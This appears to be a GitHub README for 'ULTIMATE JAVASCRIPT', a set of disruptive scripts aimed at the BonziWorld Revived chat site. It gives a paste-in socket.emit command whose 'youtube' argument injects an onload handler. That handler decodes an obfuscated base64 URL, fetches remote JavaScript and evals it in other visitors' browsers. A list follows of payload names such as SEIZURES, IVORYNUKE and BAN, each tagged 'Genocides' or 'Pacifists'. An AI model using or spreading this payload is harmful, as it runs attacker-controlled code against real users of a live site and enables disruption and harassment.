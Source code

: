 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
# Script Status?
ANANASORANG = Pacifists<br />
BALDIGLITCH = Genocides<br />
CORONAFLOOD = Genocides<br />
DOMINO = Genocides<br />
GAMEBOY = Genocides<br />
IVORYNUKE = Genocides<br />
LOSK = Genocides<br />
SEIZURES = Genocides<br />
WEBDRIVER = Genocides<br />
WTFDESTROY = Genocides<br />
BAN = Genocides<br />
ROTAT = Genocides<br />
NNNN = Genocides<br />
VODKA = Pacifists/Genocides<br />
COMBINE = ?????
